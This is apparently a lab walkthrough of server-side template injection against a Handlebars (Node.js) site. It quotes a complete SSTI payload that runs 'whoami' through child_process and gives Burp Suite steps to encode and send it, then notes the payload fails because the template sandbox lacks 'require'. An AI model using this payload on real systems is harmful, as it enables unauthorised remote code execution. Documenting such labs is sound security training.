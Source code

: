 ## Exploit: Via Burp Suite
- Following the previous link to [hacktriks' SSTI how-to page](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).
- We followed his testing inputs and found out our site is running Handlebars. 
- [He has a write-up on exploiting Handlebars](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs)
- His exploit code: 

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- NOTE THE LINE: `{{this.push "return require('child_process').exec('whoami');"}}`
- That line tests remote code execution with `whoami`

### Encode to URL
- Copy the above code and paste it into Burp's Decoder. Select `Encode as... URL`
- That should give you a long string of percent code. That's what we're going to use.

### Problem
- Start up Burp Suite. Turn on FoxyProxy. Use Burp's Proxy tab to capture a Submit from the website (anything will do). 
- Send the capture to Repeater... replace the text being sent via the Form with our URL encoded exploit.
- This does not work right outta the box. We get an error: The response shows an error that states `require is not defined`.  
- `require` is a keyword in Node.js that is used to load code from other modules or files. The above code is attempting to load the Child Process module into memory and use it to execute system commands (in this case `whoami`).
- Template Engines are often Sandboxed, meaning their code runs in a restricted code space so that in the event of malicious code being run, it will be very hard to load modules that can run system commands. 
